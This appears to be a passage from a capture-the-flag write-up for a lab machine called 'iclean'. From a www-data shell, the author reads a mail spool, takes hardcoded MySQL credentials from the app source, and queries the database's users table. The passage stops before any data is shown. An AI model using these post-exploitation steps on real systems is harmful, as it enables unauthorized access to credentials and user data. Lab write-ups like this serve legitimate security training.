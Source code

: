 And we're in!

## Looking for flags

We find this email:
```bash
www-data@iclean:/opt/app$ cat /var/spool/mail/consuela
cat /var/spool/mail/consuela
To: <consuela@capiclean.htb>
Subject: Issues with PDFs
From: management <management@capiclean.htb>
Date: Wed September 6 09:15:33 2023



Hey Consuela,

Have a look over the invoices, I've been receiving some weird PDFs lately.

Regards,
Management
```

### MySQL

From the code on `opt/app/app.py` we also find that there is a `mysql` database used to store information such as invoices, and in the same file we also find this:
```py
# Database Configuration                                                                                     
db_config = {                                                                                                
    'host': '127.0.0.1',                                                                                     
    'user': 'iclean',                                                                                        
    'password': 'pxCsmnGLckUb',                                                                              
    'database': 'capiclean'                                                                                  
}
```

We can try to access the database. The machine seemed to be extremely slow at this point, and I was having a bit of trouble. So instead of simply connecting to the database once, I tried executing all my commands individually.
```bash
www-data@iclean:/opt/app$ mysql --user='iclean' --password='pxCsmnGLckUb' --database='capiclean' --execute='show databases;'
...
Database
capiclean
information_schema
performance_schema
www-data@iclean:/opt/app$ mysql --user='iclean' --password='pxCsmnGLckUb' --database='capiclean' --execute='show tables;'
...
Tables_in_capiclean
quote_requests
services
users
www-data@iclean:/opt/app$ mysql --user='iclean' --password='pxCsmnGLckUb' --database='capiclean' --execute='select * from users;'
...
id      username        password        role_id
```